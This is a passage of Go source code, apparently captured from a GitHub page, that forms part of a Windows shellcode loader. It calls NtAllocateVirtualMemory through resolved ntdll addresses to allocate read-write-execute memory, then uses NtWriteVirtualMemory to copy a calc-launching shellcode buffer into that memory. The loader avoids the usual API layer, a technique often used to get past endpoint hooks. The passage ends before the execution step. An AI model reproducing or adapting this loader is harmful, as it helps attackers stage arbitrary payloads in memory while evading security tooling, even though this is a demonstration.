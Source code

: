 ```go
	// ProcessHandle: windows.CurrentProcess() which is -1 (pseudo handle for current process)
	// BaseAddress: Pointer to a PVOID, so unsafe.Pointer(&baseAddress)
	// ZeroBits: 0
	// RegionSize: Pointer to a SIZE_T, so unsafe.Pointer(&size)
	// AllocationType: MEM_COMMIT | MEM_RESERVE
	// Protect: PAGE_EXECUTE_READWRITE
	ntStatus, _, sysCallErr := syscall.SyscallN(
		funcAddrs["NtAllocateVirtualMemory"],
		uintptr(windows.CurrentProcess()),      // ProcessHandle
		uintptr(unsafe.Pointer(&baseAddress)),  // *BaseAddress
		0,                                      // ZeroBits
		uintptr(unsafe.Pointer(&size)),         // *RegionSize
		windows.MEM_COMMIT|windows.MEM_RESERVE, // AllocationType
		windows.PAGE_EXECUTE_READWRITE,         // Protect
	)

	if ntStatus != STATUS_SUCCESS {
		windows.FreeLibrary(ntdllHandle)
		log.Fatalf("[-] NtAllocateVirtualMemory failed with NTSTATUS: 0x%X. Syscall error: %v", ntStatus, sysCallErr)
	}
	if baseAddress == 0 {
		windows.FreeLibrary(ntdllHandle)
		log.Fatalf("[-] NtAllocateVirtualMemory succeeded but returned a NULL base address.")
	}
	fmt.Printf("[+] Memory allocated at: 0x%X, Size: %d bytes\n", baseAddress, size)

	// --- 2. Write Shellcode using NtWriteVirtualMemory ---
	fmt.Println("[*] Writing shellcode to allocated memory...")
	var numberOfBytesWritten uintptr

	// NtWriteVirtualMemory(ProcessHandle, BaseAddress, Buffer, NumberOfBytesToWrite, *NumberOfBytesWritten)
	// Buffer: Pointer to the shellcode data
	// NumberOfBytesWritten: Pointer to SIZE_T, can be 0 (nil) if not needed to check.
	ntStatus, _, sysCallErr = syscall.SyscallN(
		funcAddrs["NtWriteVirtualMemory"],
		uintptr(windows.CurrentProcess()),          // ProcessHandle
		baseAddress,                                // BaseAddress
		uintptr(unsafe.Pointer(&calcShellcode[0])), // Buffer
		size, // NumberOfBytesToWrite
		uintptr(unsafe.Pointer(&numberOfBytesWritten)), // *NumberOfBytesWritten (or uintptr(0) if not checking)
	)

	if ntStatus != STATUS_SUCCESS {
		// Attempt to free allocated memory before exiting if write fails
		var freeSize uintptr = 0 // For MEM_RELEASE, size must be 0
		// Note: NtFreeVirtualMemory expects PVOID *BaseAddress for the base address parameter
		syscall.SyscallN(
			funcAddrs["NtFreeVirtualMemory"],
			uintptr(windows.CurrentProcess()),
			uintptr(unsafe.Pointer(&baseAddress)), // Pass address of baseAddress
			uintptr(unsafe.Pointer(&freeSize)),    // Pass address of sizeForRelease
			windows.MEM_RELEASE,
		)
		windows.FreeLibrary(ntdllHandle)
		log.Fatalf("[-] NtWriteVirtualMemory failed with NTSTATUS: 0x%X. Syscall error: %v", ntStatus, sysCallErr)
	}
	fmt.Printf("[+] Shellcode (%d bytes) written to memory. Bytes written: %d\n", size, numberOfBytesWritten)

```